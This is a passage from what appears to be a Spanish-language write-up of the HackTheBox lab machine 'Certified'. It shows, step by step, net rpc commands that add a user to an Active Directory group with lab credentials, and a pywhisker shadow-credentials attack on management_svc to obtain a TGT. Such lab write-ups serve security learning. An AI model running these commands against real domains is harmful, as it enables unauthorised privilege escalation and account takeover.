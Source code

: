 Y nos metemos como miembro del grupo "management":

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```

Por último, verificamos:

![image](../zimages/Pasted_image_20250323225202.png)

Utilizando `net rpc`, comprobamos si lo que hemos hecho ha dado sus frutos y nos aparece que judith.mader está dentro del grupo management

```bash
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```

![image](../zimages/Pasted_image_20250323225226.png)

Una vez aquí, ya hemos conseguido escalar de judith.mader a estar en el grupo management. Pinchando en el siguiente rectángulo del esquema del PATH llamado "GenericWrite", volvemos a fijarnos en las instrucciones de "Linux Abuse"

![image](../zimages/Pasted_image_20250323225351.png)

Ahora utilizando `pywhisker`, el cual instalamos desde el repositorio al que nos lleva el link de BloodHound (recomiendo instalarlo con `pipx -> pipx install .` una vez dentro del repo), vamos a poder conseguir las herramientas necesarias para obtener un TGT:

```bash
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```
